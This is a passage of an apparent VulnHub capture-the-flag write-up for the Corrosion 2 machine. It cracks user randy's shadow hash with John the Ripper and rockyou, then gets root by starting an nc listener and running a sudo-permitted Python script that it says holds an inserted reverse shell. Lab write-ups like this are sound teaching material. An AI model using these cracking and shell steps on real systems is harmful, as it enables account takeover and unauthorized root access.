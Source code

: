 ### Cracking User password with John
we must first copy hash to any file than use john with wordlist to crack this hash.
```                    
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:
```
copy randy hash inside any file.
```
john hash --wordlist=~/rockyou.txt
```

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_17.png)

after cracking hash we can this time login as randy and use randombase64.py file if we can , let's check sudoers file and see our permission . 

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_15.png)

it's look we can run this file as sudo , we already add our shell inside this file , so let's run with sudo and get shell.

## Elevation of Privilege : randy to root
let's start listener and run randombase64.py file with sudo .

```bash
nc -nlvp 4542
```

```
sudo /usr/bin/python3.8 /home/randy/randombase64.py
```

![[]](/assets/img/vulnhub/corrosion/corrosion-2/img_16.png)
